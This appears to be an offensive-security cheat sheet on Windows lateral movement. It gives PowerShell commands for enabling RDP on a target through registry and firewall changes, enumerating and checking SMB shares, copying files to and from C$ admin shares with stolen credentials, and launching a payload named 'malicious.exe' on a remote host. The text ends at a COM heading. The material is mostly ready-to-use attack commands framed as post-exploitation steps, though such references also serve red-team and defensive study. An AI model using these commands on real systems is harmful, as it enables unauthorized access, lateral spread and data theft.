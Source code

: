 # Remote Desktop Protocol (RDP)

RDP allows for full graphical interaction with the remote system, often used in post-exploitation for lateral movement.

#### Enable RDP on Target System
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -Name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

#### Connect to Remote System via RDP
```powershell
mstsc /v:<target_ip>
```

# SMB

Discovering accessible shares is key for lateral movement. Misconfigured shares can allow an attacker to copy tools or data for further attacks. Copying payloads to remote systems and executing them via SMB shares.

#### List Accessible Shares on Remote Hosts
```powershell
Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-SmbShare }
```

#### Check Permissions on Remote Shares
```powershell
Invoke-Command -ComputerName <target_ip> -ScriptBlock { Get-SmbShareAccess -Name "<share_name>" }
```

#### Upload and Download from Remote System
- Transfer a File to a Remote Host via SMB:
	```powershell
	Copy-Item -Path "C:\path\to\file.txt" -Destination "\\<target_ip>\C$\path\to\save" -Credential <domain>\<user>
	```
- Download a File from a Remote Host via SMB:
	```powershell
	Copy-Item -Path "\\<target_ip>\C$\path\to\file.txt" -Destination "C:\path\to\save" -Credential <domain>\<user>
	```

#### Execute Payload on Remote System
```powershell
Invoke-Command -ComputerName <target_ip> -Credential <domain>\<user> -ScriptBlock { Start-Process "C:\Temp\malicious.exe" }
```

# Component Object Model (COM)
